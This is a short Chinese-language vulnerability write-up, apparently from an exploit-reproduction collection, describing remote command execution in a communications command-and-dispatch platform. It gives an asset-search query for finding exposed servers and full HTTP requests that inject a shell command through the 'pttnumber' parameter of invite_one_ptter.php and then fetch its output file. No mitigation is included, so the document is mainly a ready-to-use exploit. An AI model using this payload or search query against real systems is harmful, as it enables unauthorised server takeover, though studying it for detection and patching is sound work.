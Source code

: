 # 指挥调度平台invite_one_ptter存在远程命令执行漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">指挥调度管理平台是一个专业针对通信行业的管理平台。该产品旨在提供高效的指挥调度喝管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务。指挥调度平台invite_one_ptter存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgb(51, 51, 51);">三、资产测绘</font>
+ <font style="color:rgb(51, 51, 51);">hunter</font>`<font style="color:rgb(51, 51, 51);">web.body="app/structure/departments.php"</font>`
+ <font style="color:rgb(51, 51, 51);">特征</font>

![1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74.png](./img/FQYE9MXMbjGWC4jB/1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74-474502.png)

# <font style="color:rgb(51, 51, 51);">四、漏洞复现</font>
```plain
GET /api/client/ptt/invite_one_ptter.php?callee=all&caller=1&pttnumber=`id>1.txt`&force=1&timeout=1 HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=9d162ed31bcb785f6f5cb1fcc92dfff2
Upgrade-Insecure-Requests: 1
```

![1704270029047-d62fbfb3-e35a-4ea6-8371-a21c9bd7bb14.png](./img/FQYE9MXMbjGWC4jB/1704270029047-d62fbfb3-e35a-4ea6-8371-a21c9bd7bb14-708883.png)

获取命令执行结果

```plain
GET /api/client/ptt/1.txt HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=9d162ed31bcb785f6f5cb1fcc92dfff2
Upgrade-Insecure-Requests: 1
```

![1704270043886-4f20f40a-90f9-4e95-9d1f-7ae37ddc22b0.png](./img/FQYE9MXMbjGWC4jB/1704270043886-4f20f40a-90f9-4e95-9d1f-7ae37ddc22b0-502208.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/letplgg87ootvc4x>